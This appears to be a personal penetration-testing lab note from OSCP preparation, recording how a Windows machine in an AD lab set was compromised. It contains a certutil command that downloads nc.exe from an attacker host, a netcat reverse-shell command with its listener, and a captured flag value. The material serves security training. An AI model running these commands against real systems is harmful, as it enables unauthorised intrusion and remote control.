 
![[webshell.png]]


![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/system info.png]]

- going to try to pull over nc.exe to get a reverse shell

certutil.exe -urlcache -split -f "http://192.168.49.118:1337/nc.exe"


- successfully transferred but unable to use dir

![[nc.exe transfer.png]]

- going to try to catch nc rev shell

```shell

#- nc.exe reverse shell - on victim box 
nc.exe 192.168.49.118 1111 -e cmd.exe

# on attacker box
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 1111

```

![[working netcat reverse shell.png]]

GOT LOCAL.TXT on first ad set machine: - check
```shell

C:\Users\BOB~1.MAR\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.118.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.118.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.118.254

C:\Users\BOB~1.MAR\Desktop>type local.txt
type local.txt
d5ba25dbe8e2a678a403d7fdea806dfb

C:\Users\BOB~1.MAR\Desktop>

```

